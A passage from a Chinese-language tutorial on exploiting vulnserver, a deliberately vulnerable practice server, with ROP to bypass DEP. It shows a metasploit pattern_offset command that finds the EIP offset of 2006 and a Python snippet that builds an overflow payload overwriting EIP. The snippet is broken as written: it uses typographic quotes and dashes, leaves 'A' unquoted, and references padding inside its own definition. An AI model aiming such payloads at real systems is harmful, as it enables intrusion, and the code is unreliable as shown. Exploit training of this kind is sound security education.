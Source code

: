 ![5](ROP_bypass_DEP/5.png)

我们将再次使用 metasploit 来计算确切的偏移量。

从 Kali 终端运行以下命令

```bash
/usr/share/metasploit-framework/tools/pattern_offset.rb -q 386f4338 -l 3000
```

输出将告诉我们偏移量，使我们能够在 EIP 中写入我们想要的任何内容。

对于 vulnserver，它是 2006。这意味着在 2006 个字符之后，接下来的四个字符会覆盖 EIP。

![6](ROP_bypass_DEP/6.png)

现在我们将发送给受害者的有效负载将类似于缓冲区溢出的有效负载。

```python
padding = ‘F’ * (3000–2006–4 — len(padding))
prefix = A*2006
attack = prefix + ‘\x42\x42\x42\x42’+padding
```

例如，在发送上述有效负载时，EIP 将被四个 B(\x42) 覆盖，如下所示。padding 将确保有效负载长度为 3000。
